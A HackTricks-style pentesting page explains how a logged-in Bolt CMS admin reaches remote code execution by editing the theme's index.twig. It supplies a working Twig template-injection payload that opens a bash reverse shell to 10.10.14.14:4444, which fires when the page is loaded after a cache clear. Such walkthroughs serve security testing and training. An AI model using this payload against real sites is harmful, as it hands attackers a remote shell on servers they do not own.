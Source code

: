 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

After login as admin (go to /bot lo access the login prompt), you can get RCE in Bolt CMS:

- Select `Configuration` -> `View Configuration` -> `Main Configuration` or go the the URL path `/bolt/file-edit/config?file=/bolt/config.yaml`
  - Check the value of theme

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Select `File management` -> `View & edit templates`
  - Select the theme base found in the previous (`base-2021` in this case) step and select `index.twig`
  - In my case this is in the URL path /bolt/file-edit/themes?file=/base-2021/index.twig
- Set your payload in this file via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), like: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
  - And save changes

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Clear the cache in `Maintenance` -> `Clear the cache`
- Access again the page as a regular user, and the payload should be executed

{{#include ../../banners/hacktricks-training.md}}



